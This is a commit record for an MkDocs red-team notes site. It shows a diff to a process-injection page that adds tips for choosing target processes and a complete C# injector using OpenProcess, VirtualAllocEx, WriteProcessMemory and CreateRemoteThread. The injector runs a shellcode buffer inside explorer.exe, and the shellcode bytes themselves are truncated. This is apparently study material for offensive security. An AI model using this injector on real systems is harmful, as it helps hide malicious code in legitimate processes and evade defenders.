

Before and after one commit to benjugat/rtnotes, an MkDocs documentation site: the page built from docs/malware/code-injection/process-injection.md, in a window 1280 px wide and 1400 px high, scrolled down 948 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1556 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
proc injction csharp

````diff
--- a/docs/malware/code-injection/process-injection.md
+++ b/docs/malware/code-injection/process-injection.md
@@ -3,9 +3,11 @@ title: Process Injection
 description: "Is a technique useful to escape from short-lived process or to change the working context."
 ---
 
-# Processs Injection (VirtualAllocEx)
+# Processs Injection (VirtualAllocEx) or Process Migration
 
-The behavior of a remote classic injection:
+Interesting processes to inject could be `explorer.exe` (medium mandatory level) or `svchost.exe` (system mandatory level) which performs network communication.
+
+The behavior of a classic process injection is:
 
 * `VirtualAlllocEx`: Create a memory space to store our payload on a process. Normally the buffer is created with `PAGE_READWRITE` rights.
 * `WriteProcessMemory`: Copy the payload to the new allocated space.
@@ -13,6 +15,8 @@ The behavior of a remote classic injection:
 * `CreateRemoteThread`, `RtlCreateUserThread` or `NtCreateThreadEx`: Execute the payload.
 
 Example of remote injection:
+
+## C++
 
 ```cpp
 int main(void) {
@@ -54,3 +58,52 @@ int main(void) {
 Check *Object Enumeration - Process Enumeration* section to get more info about `FindProcess`:
 
 * [Proccess Enumeration](../object-enumeration/processes.md)
+
+# Csharp .NET
+
+Same as cpp but in c#, useful for do reflection later.
+
+> **Note**: Make sure to compile it in `x64`, or it won't work
+```csharp
+using System;
+using System.Collections.Generic;
+using System.Linq;
+using System.Runtime.InteropServices;
+using System.Text;
+using System.Threading.Tasks;
+using System.Diagnostics;
+using System.ComponentModel;
+
+namespace Process_injection
+{
+    internal class Program
+    {
+        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
+        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
+        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
+        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
+        [DllImport("kernel32.dll")]
+        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
+        [DllImport("kernel32.dll")]
+        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
+
+
+        static void Main(string[] args)
+        {
+            byte[] buf = new byte[760] {0xfc,0x48,0x83,0xe4,....};
+
+            IntPtr outSize;
+            Process[] processes = Process.GetProcessesByName("explorer");
+            if (processes.Length > 0)
+            {
+                IntPtr hProcess = OpenProcess(0x001F0FFF, false, processes[0].Id); // 0x001F0FFF -> PROCESS_ALL_ACCESS
+                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
+
+                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
+                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
+
+            }
+        }
+    }
+}
+```
````
Also changed, not shown: docs/malware/code-injection/section-views.md (+9 -1 lines).
